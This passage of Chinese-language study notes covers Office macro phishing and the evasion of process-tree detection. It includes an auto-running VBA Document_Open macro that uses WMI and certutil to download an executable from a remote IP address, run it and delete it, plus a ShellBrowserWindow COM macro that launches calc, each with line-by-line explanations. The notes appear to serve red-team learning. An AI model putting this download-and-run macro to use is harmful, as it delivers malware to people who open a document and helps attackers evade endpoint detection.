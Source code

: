 ![image-20240711144920180](http://cdn.ayusummer233.top/DailyNotes/202407111449956.png)

---

```vb
Private Sub Document_Open()
' 通过WMI连接到本地计算机的 CIMv2 命名空间，并设置模拟级别为“impersonate”，以允许脚本以调用者的权限运行WMI操作
Set objWMIService = GetObject("winmgmts:{impersonationLevel=impersonate}!\\.\root\cimv2")
' 获取 Win32_ProcessStartup 类的一个实例，该类包含进程启动配置的相关信息
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
' 创建 Win32_ProcessStartup 类的一个新实例，这个实例将用于配置新进程的启动参数。
Set objConfig = objStartup.SpawnInstance_
' 获取 Win32_Process 类的实例，该类用于创建和管理进程
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
' 创建一个新的进程，运行计算器程序（calc），将启动参数传递给新进程，并返回进程ID
errReturn = objProcess.Create("cmd /c certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe a.exe && a.exe && del a.exe && certutil -urlcache -split -f http://100.1.1.131:8000/download/msedge.exe delete", Null, objConfig, intProcessID)
End Sub 
```

![image-20240712111753018](http://cdn.ayusummer233.top/DailyNotes/202407121117017.png)

---

#### 获取 WSH 对象调用 cmd 执行命令

>  [Office钓鱼攻击绕过进程树检测 - 简书 (jianshu.com)](https://www.jianshu.com/p/8b01fca2c177)

COM（Component Object Model）对象是通过一个或多个相关函数集来实现对对象数据的访问的对象。这些函数集被称为接口，接口的函数被称为方法。

COM 基本上可以从VBScript引用任何COM对象(实际上是另一个可执行文件)并使用它的函数。例如，对象 `ShellBrowserWindow` 可以用来从资源管理器执行新的进程。

`CreateObject` 是 VBScript 提供的一个函数，用于创建 COM 对象。

----

Windows 操作系统自带了 Windows Script Host 环境，允许使用脚本语言（如 VBScript 和 JScript）来自动化任务。通过 WSH，可以创建 `WScript.Shell` 对象来运行命令、打开文件、操作系统等。

---

弹个计算器:

```vb
Sub ducument_open()
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc", Null, "C:\\Windows\\System32", Null, 0
End Sub
```

- `Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")`:  创建一个新的COM对象。``C08AFD90-F2A1-11D1-8455-00A0C91F3880` 是 `Windows Script Host Shell` 对象的 `CLSID` （类标识符）。通过这种方式创建的对象提供了一些与 `Windows Shell` 交互的方法和属性

- `obj.Document.Application.ShellExecute "calc", Null, "C:\\Windows\\System32", Null, 0`
